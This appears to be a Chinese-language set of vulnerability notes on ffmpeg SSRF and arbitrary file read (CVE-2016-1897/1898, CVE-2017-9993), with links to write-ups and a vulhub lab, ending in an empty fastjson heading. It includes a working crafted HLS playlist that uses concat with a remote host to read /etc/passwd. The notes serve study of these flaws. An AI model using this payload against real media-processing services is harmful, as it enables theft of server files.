 # **[ffmpeg 任意文件读取漏洞/SSRF漏洞 （CVE-2016-1897/CVE-2016-1898）](http://xdxd.love/2016/01/18/ffmpeg-SSRF%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)**

## **漏洞原理：**

```
如果ffmpeg解析了一个恶意的文件，会导致本地的文件信息泄露。受影响的出了ctf中这个在线视频格式转换的服务外，如果是采用ffmpeg了客户端如果可以输入恶意文件也会造成本地文件信息泄露。
```

# **[CVE-2016-1897](http://xdxd.love/2016/01/18/ffmpeg-SSRF%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)**

## **漏洞说明**

FFmpeg 2.x版本允许攻击者通过服务器端请求伪造(SSRF：Server-Side Request Forgery) 恶意远程窃取服务器端本地文件，由于ffmpeg的hls没有进行对file域协议进行有效限制，导致攻击者可通过构造hls切片索引文件以及ffmpeg对concat的支持(https://www.ffmpeg.org/ffmpeg-protocols.html#concat )来恶意远程窃取服务器端本地文件/etc/passwd，所构造的恶意视频文件

## **[构造文件：](http://www.vuln.cn/6151)**

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://dx.su/header.m3u8|file:///etc/passwd
#EXT-X-ENDLIST
```


# **[ffmpeg 任意文件读取漏洞环境 (CVE-2017-9993)](https://vulhub.org/#/environments/ffmpeg/phdays/)**


## **[漏洞原理](https://vulhub.org/#/environments/ffmpeg/phdays/)**

> 生成exp.avi，在http://your-ip:8080/上传。后端将会将你上传的视频用ffmpeg转码后显示，转码时因为ffmpeg的任意文件读取漏洞，可将文件信息读取到视频中：



# **[fastjson 反序列化导致任意命令执行漏洞](https://vulhub.org/#/environments/fastjson/vuln/)**








